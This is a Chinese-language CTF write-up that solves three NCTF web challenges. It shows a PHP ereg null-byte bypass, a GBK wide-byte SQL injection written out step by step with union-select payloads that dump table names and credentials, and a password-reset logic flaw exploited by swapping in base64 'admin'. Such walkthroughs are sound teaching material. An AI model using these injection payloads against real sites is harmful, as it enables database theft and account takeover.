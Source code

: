 ## 好气啊……搞密码学的密码学弄不会……先从web题入手吧

###1. php-basic1
>http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php

打开发现给出了源代码。
```
view-source:
    if (isset ($_GET['nctf'])) {
        if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
            echo '必须输入数字才行';
        else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
            die('Flag: '.$flag);
        else
            echo '骚年，继续努力吧啊~';
    }
```
然后试着把网址改为：
>http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php?nctf=1

发现输出了“骚年，继续努力吧”大概的意思就明白了。
要绕过的是这第一个判断，进入第二个判断……也就是说nctf后面第一个要是一个数，第二个要是biubiubiu.
这里考察的是00截断，当ereg遇到00的时候就会认为结束退出，所以我们只要用00截断就能进入第二个判断，payload就是：
nctf=1%00%23biubiubiu
23是#,第二个判断读入的是%00biubiubiu这个字符串。
```
Flag: flag:nctf{use_00_to_jieduan}
```
但是值得注意的是如果用了nctf[]的payload，会导致报错直接xjb爆出flag。这可能是因为strpos数组越界返回值为null，!=false.
```
Warning: strpos() expects parameter 1 to be string, array given in web4/f5a14f5e6e3453b78cd73899bad98d53/index.php on line 10
Flag: flag:nctf{use_00_to_jieduan}
```
###2. SQL-basic1
>http://chinalover.sinaapp.com/SQL-GBK/index.php?id=2

这是一道盲注题。准确的说是宽字节注入。
会发现当将id=2修改为id=1时会返回这样的东西。
```
your sql:select id,title from news where id = '1â€˜'
```
那这可能存在GBK宽字节注入。
爆字段
---
分别尝试
id=-1%df' order by 1 %23  （df后面的单引号闭合query前面的引号，%23='#'注释掉后面的query里面的引号）
id=-1%df' order by 1,2 %23
id=-1%df' order by 1,2,3 %23<--报错
有两个字段。
用union select爆出了2
```
id=-1%df' union select 1,2 %23
```
爆库
---
继续盲注爆出了一个库
id=-1%df' union select 1,database() %23
```
sae-chinalover
```
现在就可以随便爆了：
爆表名
---
```
id=-1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() %23
```
```
ctf,ctf2,ctf3,ctf4,news
```
猜测是第一个，继续爆字段
---
```

id=-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x637466 %23
```
```
user,pw
```
you know what to do.
ctf-ctf4挨个爆破。
---
#### 2.1ctf
```
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%df' union select 1,group_concat(user,pw) from ctf %23

```
admin21dd715a3605b2a4053e80387116c190,md5加密。
解出来的没有用
#### 2.2 ctf2……没有
#### 2.3 ctf3……没有
#### 2.4 ctf4：有了
payload：
>id=-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x637466 %23

id,flag
返回：
1 nctf{gbk_3sqli}
getflag
3. logic-basic1
>http://nctf.nuptzj.cn/web13/index.php?user1=Y3RmdXNlcg%3D%3D

密码找回的逻辑bug
首先，网址的Y3RmdXNlcg%3D%3D就是base64，解出来就是Y3RmdXNlcg==
ctfuser
我们直接反过来编码admin的base64放到地址里面然后用burpsuite拦截
> flag is:nctf{reset_password_often_have_vuln}
 

